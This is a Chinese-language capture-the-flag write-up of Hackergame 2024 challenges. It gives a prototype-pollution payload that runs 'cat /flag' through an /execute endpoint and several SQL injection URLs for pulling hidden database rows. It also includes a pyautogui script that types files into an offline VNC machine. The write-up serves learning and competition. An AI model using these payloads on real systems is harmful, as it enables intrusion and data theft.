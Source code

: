 没来得及，[四编组动车](https://www.china-emu.cn/)

# Node.js is Web Scale

直接就问[cladue](https://claude.site/artifacts/9ef35c7c-79cf-445e-ad45-a4c7e5791d6c)了，告诉我该用原型链污染。

`key`: `__proto__.pwn`

`value`: `cat /flag`

最后访问`/execute?cmd=pwn`即可。

# PaoluGPT

最直接的方法就是将列表里的的文章都下载下来，然后搜索内容即可找到flag1。

但是找到 flag2 是要靠sql注入的，同样 flag1 也能通过 sql注入找到，阅读源码找到注入点，访问相应的url即可。

flag1：`/view?conversation_id=' OR contents LIKE '%flag%';--`

flag2: 
`/view?conversation_id= union select id, title from messages where shown=false and '1'='1` 获取 id，然后拿id去访问页面。
或者`/view?conversation_id=' OR shown=false;--`

# 惜字如金 3.0

只做出了题目A，毕竟关键字补全就可以了。

# 无法获得的秘密

很有意思的一道题，你有一台无法联网的 linux 电脑，你只能通过vnc远程连接，只有鼠标键盘输入和图像输出，也无法复制粘贴，你能获取此电脑中的一个文件吗？

刚好之前看过一个利用二维码来传输文件的项目[qifi-dev/qrs](https://github.com/qifi-dev/qrs)，是个网页项目在浏览里显示二维码，同样也用浏览器调用摄像头在网页里接收文件，非常适合用来干这个。

首先我们要解决的是如何把项目代码传输进远程电脑里，不能直接传输文件又不能直接复制粘贴，难道要手敲吗？那还真是[^1]。。。

我们可以使用 pyautogui 来自动化，当然传输的是文本文件。

```python
# https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/players/KoiMeautily/readme.md#%E6%97%A0%E6%B3%95%E8%8E%B7%E5%BE%97%E7%9A%84%E7%A7%98%E5%AF%86
import time
import pyautogui

filename = 'server.py' # 你要传输的文本文件
with open(filename, 'r', encoding='utf-8') as file:
    content = file.read()

print("wait...")
time.sleep(5)  # 切换焦点到远程主机上
print("start.")
pyautogui.typewrite(content, interval=0.0001)
print("end.")
```
